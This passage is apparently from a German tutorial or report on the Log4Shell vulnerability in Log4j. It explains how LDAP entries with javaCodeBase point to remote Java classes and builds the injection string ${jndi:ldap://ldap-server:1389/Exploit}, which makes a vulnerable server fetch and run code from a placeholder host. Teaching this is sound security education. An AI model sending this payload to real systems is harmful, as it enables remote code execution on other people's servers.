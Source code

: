 Man kann in LDAP auch Referenzen auf externe Klassen speichern, die dann bei Bedarf nachgeladen werden können. Dies geschieht über spezielle Attribute wie `javaClassName` und `javaCodeBase`. Diese Attribute können auf eine URL verweisen, von der eine Java-Klasse geladen werden soll.

Mit der folgenden URL können wir beispielsweise ein Objekt abfragen, das auf eine Java-Klasse verweist:

```
ldap://ldap-server:1389/Exploit
```

![LDAP Eintrag](./LDAP-Exploit-Eintrag.png)

Wie man auf dem Bild sieht, enthält der LDAP-Eintrag ein Attribut `javaClassName`, das auf die Klasse `Exploit` verweist. Mit dem Attribut `javaCodeBase` wird die URL angegeben, von der die Klasse geladen werden soll. In diesem Fall ist es ein HTTP-Server mit der Adresse `http://payload-server/`, der die `Exploit.class` bereitstellt.

Nun haben wir alle technischen Komponenten im Detail betrachtet. Im nächsten Abschnitt wird der allgemeine Ablauf der Log4Shell-Sicherheitslücke beschrieben, um zu verstehen, wie diese Technologien zusammenspielen und welcher Angriffsvektor daurch entsteht.

### 3.4 Allgemeiner Ablauf Log4Shell

Nachdem wir die drei beteiligten Technologien, **Log4j** als Logging-Framework, **JNDI** als Schnittstelle für Verzeichnisdienst und **LDAP** als konkreten Verzeichnisdienst, einzeln betrachtet haben, wird nun deutlich, wie gefährlich ihre Kombination sein kann, wenn keine Sicherheitsvorkehrungen getroffen wurden.

In Log4j-Versionen bis 2.14.1 war es möglich, sogenannte **Lookups** direkt in Log-Nachrichten auswerten zu lassen. Dadurch konnten JNDI-Abfragen über LDAP eingebunden werden, welche dann beliebige Java-Klassen von einem entfernten Server laden und ausführen konnten, ohne diese Funktionalität explizit aktiviert zu haben.

#### Konkretes Szenario im Zusammenspiel:

Nun setzen wir das gerade Erlernte in einem konkreten Beispiel um. Als ersten Schritt starten wir einen JNDI-Lookup mit dem folgenden Ausdruck:

```text
${jndi:...}
```

Setzten wir nun den LDAP-Service Provider ein, um eine entfernte Java-Klasse zu laden `ldap://ldap-server:1389/Exploit`. Zusammen ergibt sich folgende Zeichenkette:

```text
${jndi:ldap://ldap-server:1389/Exploit}
```
